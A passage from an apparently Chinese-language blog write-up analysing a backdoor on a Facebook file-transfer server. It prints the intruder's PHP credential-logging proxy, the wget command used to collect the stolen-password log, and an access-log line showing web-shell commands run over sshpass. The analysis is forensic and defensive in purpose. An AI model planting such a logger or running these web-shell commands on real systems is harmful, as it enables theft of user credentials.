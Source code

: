 ```
<?php
include_once('sclient_user_class_standard.inc.orig');
$fp = fopen("/home/seos/courier/B3dKe9sQaa0L.log", "a"); 
$retries = 0;
$max_retries = 100; 

// 省略...

fwrite($fp, date("Y-m-d H:i:s T") . ";" . $_SERVER["REMOTE_ADDR"] . ";" . $_SERVER["HTTP_USER_AGENT"] . ";POST=" . http_build_query($_POST) . ";GET=" . http_build_query($_GET) . ";COOKIE=" . http_build_query($_COOKIE) . "\n"); 

// 省略...
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

前几个就是很标准的 PHP 一句话木马 

其中比较特别的是 “sclient_user_class_standard.inc” 这个文件。

include_once 在 “sclient_user_class_standard.inc.orig” 中为原本对密码进行验证的 PHP 程序，骇客做了一个 Proxy ，并在中间进行一些重要操作时先把 GET, POST, COOKIE 的值记录起来。

整理了一下，骇客在密码验证的地方做了一个 Proxy ，并且记录 Facebook 员工的帐号密码，并且将记录到的密码存储到 Web 目录下，骇客每隔一段时间使用 wget 抓取

```
wget https://files.fb.com/courier/B3dKe9sQaa0L.log
```

![img](https://img2018.cnblogs.com/blog/1049983/201906/1049983-20190628162846388-1736411205.png)

​                         *Logged passwords*

从日志记录里面可以看到除了使用者帐号密码外，还有从 FTA 文件时的邮件内容，记录到的帐号密码会定时 Rotate (后文会提及，这点还是XD)

发现最近一次的 Rotate 从 2/1 记录到 2/7 共约 300 条帐号密码纪录，大多都是 “@fb.com” 或是 “@facebook.com” 的员工账号密码，这事觉得事情有点严重了，在 FTA 中，使用者的登入主要有两种模式

1. 一般用户注册，密码 Hash 存在资料库，由 SHA256 + SALT 储存
2. Facebook 员工 (@fb.com) 则走统一认证，使用 LDAP 由 AD 认证

在 这日志记录中有真实的员工帐号密码被泄露，**猜测** 这份帐号密码应该可以通行 Facebook Mail OWA, VPN 等服务做更进一步的渗透…

此外，这名 “骇客” 可能习惯不太好 :P

1. 后门参数皆使用 GET 来传递，在网页日志可以很明显的发现其足迹
2. 骇客在进行一些指令操作时没考虑到 STDERR ，导致网页日志中很多指令的错误信息，从中可以查看到骇客做了哪些操作

从 access.log 可以观察到的每隔数日骇客会将记录到的帐号密码清空

```
192.168.54.13 - - 17955 [Sat, 23 Jan 2016 19:04:10 +0000 | 1453575850] "GET /courier/custom_template/1000/bN3dl0Aw.php?c=./sshpass -p '********' ssh -v -o StrictHostKeyChecking=no soggycat@localhost 'cp /home/seos/courier/B3dKe9sQaa0L.log /home/seos/courier/B3dKe9sQaa0L.log.2; echo > /home/seos/courier/B3dKe9sQaa0L.log' 2>/dev/stdout HTTP/1.1" 200 2559 ...
```
